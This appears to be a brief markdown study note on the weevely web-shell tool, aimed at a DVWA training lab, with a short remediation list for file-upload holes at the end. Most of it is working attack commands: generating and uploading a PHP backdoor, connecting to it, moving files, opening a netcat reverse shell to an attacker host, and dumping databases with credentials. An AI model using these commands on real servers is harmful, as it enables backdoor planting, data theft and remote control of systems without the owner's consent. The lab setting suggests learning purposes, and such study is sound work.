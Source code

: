 -  weevely
	```
	weevely generate passs_for_file file_save_location/shell.php
	# upload shell.php
	weevely uploaded_file_path password_of_shell_file
	# example 
	weevely http://192.168.30.233/dvwa/hackable/uploads/shell.php 12345
	
	# download file
	file_download -vector file remote_path local_path
	:file_download remote_path/test_file.txt remote_path/test_file.txt
	
	# upload file
	file_upload -vector file remote_path local_path
	:file_upload -force /media/sf_file_share_directory/test_file.txt remote_path/file_name.txt

	#backdoor_reversetcp
	backdoor_reversetcp -vector netcat attacker_ip attacker_port 
	
	#sql_dump
	sql_dump -host localhost -lpath local_path/test.txt db_name db_user db_password
	sql_dump -vector mysqldump_sh -host localhost -lpath local_path/test.txt db_name db_user db_password
	
	
	
	```

**remediation of file upload vulnerabilites**
1. Never allow users to upload executables (php, exe ..etc)
2. Check the file AND the file extension.
3. Analyse the uploaded file, recreate it and rename it.
	